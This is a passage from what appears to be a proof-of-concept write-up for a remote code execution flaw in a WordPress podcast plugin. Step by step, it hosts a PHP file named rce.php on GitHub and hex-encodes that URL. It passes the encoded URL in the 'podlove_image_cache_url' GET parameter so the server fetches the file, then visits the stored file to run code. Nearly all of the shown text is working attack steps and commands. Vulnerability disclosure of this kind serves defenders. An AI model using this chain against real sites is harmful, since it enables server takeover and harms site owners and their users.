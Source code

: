 2. Host the file somewhere on the internet on a domain different from the WordPress site, for example:

```
https://github.com/w41bu1/w41test/raw/refs/heads/main/rce.php
```

3. Hex-encode the URL (`https://github.com/w41bu1/w41test/raw/refs/heads/main/rce.php`)

```bash
❯ echo -n "https://github.com/w41bu1/w41test/raw/refs/heads/main/rce.php" | xxd -p
68747470733a2f2f6769746875622e636f6d2f7734316275312f773431746573742f7261772f726566732f68656164732f6d61696e2f7263652e706870
```

3. Send a GET request with param `podlove_image_cache_url=68747470733a2f2f6769746875622e636f6d2f7734316275312f773431746573742f7261772f726566732f68656164732f6d61696e2f7263652e706870`

![File Uploaded](file_uploaded.png "File uploaded successfully")

4. Access the created file and achieve RCE

![Result](result.png "RCE via uploaded file")
